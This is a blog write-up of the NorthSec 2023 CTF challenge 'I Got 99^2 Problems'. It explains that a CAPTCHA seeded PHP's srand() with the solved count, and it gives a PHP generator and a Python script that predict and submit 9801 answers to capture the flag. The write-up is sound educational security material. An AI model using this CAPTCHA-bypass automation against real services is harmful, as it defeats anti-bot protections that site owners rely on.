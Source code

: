 ```yaml
---
layout: post
title: NorthSec 2023 Writeup - I Got 99^2 Problems
date: 2023-05-22
type: post
tags:
- Writeup
- Hacking
- NorthSec
- CTF
permalink: /2023/05/NorthSec/IGot992Problems
img: 2023/05/NorthSec/IGot992Problems/Description.png
---
```


This challenge was about solving a CAPTCHA that used a predicable value to seed its randomness.

```
Anti-robot captcha to validate. 99^2 valid tries to pass it.

http://igot992problems.ctf
```

I opened the provided link.

![CAPTCHA](/assets/images/2023/05/NorthSec/IGot992Problems/Captchat.png "CAPTCHA")

It was simple page with only a CAPTCHA. According to the challenge name, I had to solve it 99^2 (9801) times.

I looked around the page source and found out the PHP code to generate the CAPTCHA text in a comment of a JS file.

![Code to be removed](/assets/images/2023/05/NorthSec/IGot992Problems/CodeToBeRemoved.png "Code to be removed")

This code was generating a random string to use in the CAPTCHA image. It was using the counter of successfully solved CAPTCHA to [seed the random number generator](https://www.php.net/srand). That made it predicable. I could easily write a script that would increment a local counter, generate the CAPTCHA string and submit it.

I copied the PHP code in a file.

```php
<?php
$counter = (int) $argv[1];
srand($counter);
$string='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefhijklmnopqrstuvwxyz1234567890';
$string_shuff=str_shuffle($string);
$text=substr($string_shuff,0,10);

echo $text;
```

Then I wrote a Python script that would call the PHP script to generate the value and submit it.

```python
#!/usr/bin/env python3

import requests;
import os;

url = "http://igot992problems.ctf"
cookies = {
    "PHPSESSID": "57dcc5aeu06gpgf0ncp6683tvn"
}


counter = 0

while True:
    command = f"php gen.php {counter}"
    output_stream = os.popen(command)
    captcha = output_stream.read()
    print(f"{counter} - {captcha}")

    response = requests.get(url + "/captcha-generator/img_gen.php", cookies=cookies)

    data = {
        "value": captcha
    }

    response = requests.post(url, data, cookies=cookies)
    if 'FLAG-' in response.text:
        print('Pwned')
        print(response.text)
        exit()

    if 'Valid Captcha' not in response.text:
        print('Errored out')
        print(response.text)
        exit()

    counter += 1
```

I ran the script, and waited for the flag.

```bash
$ ./igot992problem.py
0 - AiEfbC3unc
1 - 4rcsj5CkLR
2 - SKeHcF4EOY
3 - 64P3MvKYlw
4 - Ik36HYcaRP
5 - qyGVUkDp0t
6 - iaY4cS8hKe

...

9793 - k6xLQeKoWN
9794 - AMLpcZQyVw
9795 - hsxEd30iVq
9796 - 4zyEPVwBO3
9797 - JSepQaTtoP
9798 - M413DVKvCP
9799 - k123mFtWhe
9800 - YzktB8n1sV
Pwned
<p>Valid Captcha. </p><p>Solved 9801 Captcha. </p><p>Congratulations ! FLAG-5911a8911ad6c93a98f46bd63b8ee808</p>
<style>
body {
        background-color: #008080;
}

p {
        background-color: white;
}

</style>

<!DOCTYPE html>
<html lang="en" dir="ltr">
<link rel="stylesheet" href="./captcha-generator/asset/style.css">
  <head>
    <meta charset="utf-8">
    <title>I got 99^2 problems</title>
  </head>
  <body>
  <div>
  <div id="ae_captcha_api"></div>
  </br>
    <form method = "POST" >

                <div><input type="text" placeholder = "Enter Captcha" name="value"/></div>
                <div><input type="submit" formaction="" value = "Submit"/></div>
        </form>
        <script src="./captcha-generator/asset/main.js"></script>
  </div>
  </body>
</html>
```

![Flag](/assets/images/2023/05/NorthSec/IGot992Problems/Flag.png "Flag")